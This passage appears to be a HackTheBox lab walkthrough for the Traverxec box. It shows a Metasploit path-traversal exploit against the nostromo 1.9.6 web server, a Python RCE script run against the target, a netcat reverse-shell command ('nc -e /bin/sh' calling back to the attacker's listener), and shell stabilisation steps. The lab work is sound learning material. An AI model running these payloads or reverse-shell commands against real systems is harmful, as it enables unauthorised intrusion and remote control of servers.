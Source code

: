 I won't use metasploit itself, so I examine the exploit, seeing how it works and what strings it appends to the url. Turns out it sends an api post request and data param is where the command gets executed.  Just throwing the traversal string on the end of the url in the browser also starts showing you the directory structure of the box. 
```
def execute_command(cmd, opts = {})
    send_request_cgi({
      'method'  => 'POST',
      'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
      'headers' => {'Content-Length:' => '1'},
      'data'    => "echo\necho\n#{cmd} 2>&1"
      }
    )
  end
```

Messed around with the metasploit exploit above for a bit, but was having trouble with the CGI encoding using curl.  Looked around for a version specific exploit and found this: https://packetstormsecurity.com/files/155802/nostromo-1.9.6-Remote-Code-Execution.html

Copied that code into a file locally and ran it with good results:
```
shotop@kali:~/Pentesting/HackTheBox/Boxes/traverxec$ python exploit.py 10.10.10.165 80 whoami

HTTP/1.1 200 OK
Date: Sat, 04 Jan 2020 21:29:39 GMT
Server: nostromo 1.9.6
Connection: close


www-data

```

## foothold
figiured out a netcat command to get a reverse shell on the attacking machine:
- on attacking machine run `nc -nlvp 8081`
- using python command exploit above, pass the following command to call back to the listener (i.e. send off the reverse shell) 
```
shotop@kali:~/Pentesting/HackTheBox/Boxes/traverxec$ python exploit.py 10.10.10.165 80 'nc -e /bin/sh my_local_ip 8081'
```

shell connects:
```
shotop@kali:~/Downloads$ nc -nlvp 8081
listening on [any] 8081 ...
connect to 
whoami
www-data
```

stabalize shell:
```
Stabalized reverse shell:
on victim
python -c "import pty; pty.spawn('/bin/bash')"

ctrl-z to jump back to local

on local: 
stty raw -echo
fg

back on victim:
```